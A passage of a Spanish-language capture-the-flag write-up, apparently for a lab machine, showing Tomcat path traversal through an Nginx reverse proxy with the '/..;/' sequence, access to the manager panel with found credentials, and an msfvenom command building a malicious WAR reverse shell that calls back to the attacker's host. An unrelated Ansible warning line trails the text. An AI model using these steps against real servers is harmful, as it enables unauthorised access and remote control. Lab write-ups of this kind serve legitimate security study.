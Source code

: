 Asi que ahora pruebo a buscar en la web con las palabras clave **Nginx**, **proxy**, **Tomcat** y **vulnerabilities**.

![image](https://user-images.githubusercontent.com/67548295/141686455-ea6c7ac7-722e-48f3-8b3e-6c5398a32425.png)

Mmmh, `Path Traversal`, suena interesante, echemos un vistazo a esta página:

![image](https://user-images.githubusercontent.com/67548295/141686519-bbce9a1c-e6fa-41ce-ad94-e6dda0b8a38f.png)
Fuente: [Tomcat path traversal via reverse proxy mapping ...](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/){:target="\_blank"}{:rel="noopener nofollow"}

Como dice este artículo, la vulnerabilidad reside en que se tomará la secuencia `/..;/` como `/../`, esto nos permite **retroceder directorios** y acceder a sitios no autorizados.

Veamos esto en la practica.

Se supone que el servidor tratará de igual manera la ruta `/manager/status` y `/manager/status/..;/status/`.

Veamos si es cierto:

```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ curl -s -k -u 'tomcat:42MrHBf*z8{Z%' 'https://10.10.10.250/manager/status/..;/status' -I | head -n 1
HTTP/1.1 200 
```

| Parámetro | Acción |
|:---------:|:------:|
| `-s` | Habilita el modo silecioso de `curl`, no muestra barras de progreso ni errores |
| `-k` | No verifica si la conexión SSL es segura |
| `-u` | Se usa para especificar un usuario y contraseña para una autenticación en el servidor |
| `-I` | Se obtienen solo las cabeceras de la respuesta |

Parece que funciona, hemos obtenido un código de estado `200 OK`

El punto de esta vulnerabilidad es que podemos acceder a sitios no autorizados, como es nuestro caso, a la ruta `/manager/html`.

Probemos a ver si funciona la ruta `/manager/status/..;/html`:

![image](https://user-images.githubusercontent.com/67548295/141689328-b904bc00-8580-43f3-b4fc-49399bc138a4.png)

¡Accedimos!, la vulnerabilidad está presente.

Ahora que conseguimos acceso a este recurso, ganemos acceso al sistema:

### 1º Paso - Creamos el archivo .war malicioso

Para esto, haremos uso de la herramienta `msfvenom`:

```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ msfvenom -p java/shell_reverse_tcp lhost=10.10.14.37 lport=4444 -f war -o not-a-reverse-shell.war
Payload size: 13321 bytes
Final size of war file: 13321 bytes
Saved as: not-a-reverse-shell.war
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'